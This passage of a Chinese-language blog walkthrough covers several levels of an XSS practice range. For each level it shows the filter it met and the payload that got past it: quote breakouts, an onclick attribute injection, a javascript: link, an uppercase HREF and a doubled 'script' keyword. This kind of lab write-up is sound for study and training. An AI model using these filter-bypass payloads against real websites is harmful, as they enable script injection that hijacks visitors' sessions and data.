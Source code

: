正则是给所有的\"替换成\\\\\"

所以我们在自己写个\\去替换掉就行了

```JavaScript
\");alert(1);//
```



### 练习靶场二

https://xssaq.com/yx/level1.php



第一题略



第二题

他给了一个输入框,随便输入点东西然后查看源代码

![image-20220116184634174](D:\Code\pojo\Blog\BlogHexo\public\img\xss-8.png)

他并没有把input里面的内容给屏蔽

所以可以直接构造

> " onclick="alert(1)"



第三题

直接查看源代码,然后测试是否可以闭合

![image-20220116184953951](D:\Code\pojo\Blog\BlogHexo\public\img\xss-9.png)

发现可以使用单引号闭合,然后自由发挥把



第三题和第四题一样



第五题还是弄闭合然后发现 on和script都用不了,于是使用a标签

> "><a href="javascript:alert(1)">

第六题和第五题一样就是href变成大写的





第七题

1.看源码2.测试脚本,发现script被替换为空了,3.使用双写测试

然后完成了

> "><scrscriptipt>alert(1)</scriscriptpt>


